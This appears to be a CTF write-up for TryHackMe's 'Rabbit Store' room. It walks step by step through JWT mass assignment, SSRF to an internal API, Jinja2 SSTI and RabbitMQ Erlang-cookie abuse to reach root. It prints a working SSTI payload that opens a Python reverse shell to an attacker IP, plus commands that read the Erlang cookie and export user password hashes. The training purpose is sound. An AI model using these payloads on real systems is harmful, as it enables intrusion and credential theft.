






# TryHackMe - Rabbit Store CTF Write-up (RabbitMQ Abuse & SSTI to Root)

> **Author:** David Umoh  
> **Platform:** TryHackMe  
> **Category:** Web Exploitation, RabbitMQ Abuse, SSTI, SSRF, Privilege Escalation  
> **Difficulty:** Medium  

---

## Overview

In this room, we pivot through several layers of exploitation using API endpoint abuse, JWT manipulation, mass assignment, SSTI (Server-Side Template Injection), and finally RabbitMQ remote command execution to gain root. Here's a full breakdown of all methods used, mistakes, hiccups, payloads, and the reasoning behind each step.

---

## Reconnaissance

Initial Nmap Scan revealed the following:

```bash
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
4369/tcp  open  epmd
25672/tcp open  unknown
```

### `/etc/hosts` Entry

We added the following to our `/etc/hosts` file to access subdomains easily:

```
10.10.240.29 cloudsite.thm storage.cloudsite.thm
```

Navigating to cloudsite.thm we are greeted with a landing page which has a login/signup button. Clicking it redirects to the subdomain `storage.cloudsite.thm`.



---

## Gaining Initial Access via Mass Assignment

There is a sign-up button; let's register an account, login and see what we can find. We are presented with a dashboard after logging in.

Using Burp to intercept the request, we see a JWT token is assigned after login. Using JWT Editor, we decoded the token to be:



```json
{
    "email": "tes1@gmail.com",
    "subscription": "inactive",
    "iat": 1753313734,
    "exp": 1753317334
}
```

Attempts to exploit the token via `alg:none` & algorithm confusion failed. Eventually i pivoted to mass assignment which simply involed adding the `"subscription":"inactive"` parameter in the request header during registration and simply modifying it to `"subscription":"active"`.

```json
{
    "email": "test@gmail.com",
    "subscription": "active",
    "iat": 1753303135,
    "exp": 1753306735
}
```

This gave usthe privilege we needed to access the dashboard.

---

## SSRF Discovery via Upload Feature



Loking at the dashboard, we see 2 upload functions. One for uploading files from local machine and the other from a URL. Seeing this, my first thought was there may be some kind of File upload vulnerability i can exploit, so that is what i focused on.

The next step was to simply try and upload a file via both methods and intercept the request. On our machine we set a host using python `python3 -m http.server 9000`
and simply inserted `http://10.8.137.194:9000/test.txt` and we receive a request being made to our server. Refreshing the page shows a file and clicking it downloads the file, and sure enough, it was our file.

While looking at the request body via burp, we find that both upload fuctions make requests to 2 different api endpoints. The URL upload feature make a request to `/api/store-url` and the file upload to `/api/upload/`. and finally to view any file, it makes a request to `api/upload/Filename` (The filename will is hashed)

### API Enumeration via FFUF
Since we are dealing with an Api, we can try fuzzing to see if we can find any hidden endpoint. Using `ffuf`, we discovered a hidden endpoint `/api/docs`:

```bash
ffuf -u https://storage.cloudsite.thm/api/FUZZ -w api-endpoints.txt
```
Direct access was denied (`403`). 



By simply navigating to the endpoint via browser we get a message saying it can only be accessed by Localhost at port 3000. Since we have confirmed SSRF can try and manipulate the server to do just that by abusing the `api/store-url` upload feature by adding the below JSON to the request body:

```json
{ "url": "http://127.0.0.1/api/docs" }
```

This worked & i was able to gain access to the `api/docs` file and download it which revealed all the api endpoints.

### Dumped API Endpoints

```
POST:
- /api/register
- /api/login
- /api/upload
- /api/store-url
- /api/fetch_messeges_from_chatbot

GET:
- /api/uploads/filename
- /dashboard/inactive
- /dashboard/active
```

---

## Discovering and Exploiting SSTI

One endpoint `/api/fetch_messeges_from_chatbot` stood out. Sending a POST request without a body returned:

```json
{"error": "username parameter is required"}
```

so i added this to the request body:

```json
{ "username": "" }
```

Then testing for SSTI, i used the following payload:



```json
{ "username": "${{<%[%'"}}%\." }
```

This revealed a **Jinja2 error**, confirming SSTI.

### Exploiting Jinja2 for RCE



```Python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("python3 -c 'import socket,os,pty;s=socket.socket();s.connect((\"10.8.137.194\",9001));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/bash\")'").read() }}
```
listener: ```nc -lvnp 9001```

We caught a reverse shell as user `azreal`.

```bash
cd /home
cat user.txt
98d3a30f{Redacted}44d317be0c47e
```

---

## Privilege Escalation via RabbitMQ

Performing enumeration on the target machine, we find a curious directory `/var/lib/rabbitmq`. Navigating to the directory `cd /var/lib/rabbitmq`, lets list the contents of the directory using `ls -la` we see a .erlang.cookie file. lets read it

```bash
cat /var/lib/rabbitmq/.erlang.cookie
# XrMEGa8a2jG63bGn
```
Since we know rabbit is running on the system, lets enumerate the process name Using `epmd -names`:

```
name rabbit at port 25672
```

Added the hostname to `/etc/hosts`:

```
10.10.240.29 forge
```
On our local machine we can confirm if the node is active & see if we can connect.

Confirmed the node using:

```bash
rabbitmqctl --node rabbit@forge --erlang-cookie XrMEGa8a2jG63bGn status
```
### Enumerating Users

```bash
rabbitmqctl --node rabbit@forge --erlang-cookie XrMEGa8a2jG63bGn list_users
```

### Exporting User Definitions

```bash
sudo rabbitmqctl --node rabbit@forge --erlang-cookie XrMEGa8a2jG63bGn export_definitions /dev/shm/users.json
```

Inspected:

```bash
cat /dev/shm/users.json | jq .users[]
```

Found:

```json
{
  "name": "root",
  "password_hash": "49e6hSldHRaiYX329+ZjBSf/Lx67XEOz9uxhSBHtGU+YBzWF"
}
```

### Base64 Decoding & Final Root Access

```bash
echo 49e6hSldHRaiYX329+ZjBSf/Lx67XEOz9uxhSBHtGU+YBzWF | base64 -d | xxd -p -c 100
```

Result:
SHA26 hash & salt
```
e3d7ba85295d1d16a2617df6f7e6630527ff2f1ebb5c43b3f6ec614811ed194f98073585
```
**Before we can use the above to gain root we have to remove the 4byte salt at the which is `e3d7ba85` then the final result will be**

Password hash:
SHA 256 hash
```
295d1d16a2617df6f7e6630527ff2f1ebb5c43b3f6ec614811ed194f98073585
```
Then lets accesss root using su -
```bash
su -
# password: 295d1d16a2617df6f7e6630527ff2f1ebb5c43b3f6ec614811ed194f98073585
```
**Root flag**:
```
cat root.txt
eabf7a0{Redacted}f3e0465d2fd0852

```

## Key Takeaways

- Always test for mass assignment in JWT-based APIs
- SSRF can help access internal-only endpoints
- SSTI can be triggered by fuzzing templates
- RabbitMQ nodes can expose secrets via exported definitions
- The `.erlang.cookie` is sensitive and grants node-level access

**Inspired by:** [jaxafed's Rabbit Store write-up](https://jaxafed.github.io/posts/tryhackme-rabbit_store/)  
**Written by:** David Umoh (Cybersecurity enthusiat & Pentester)
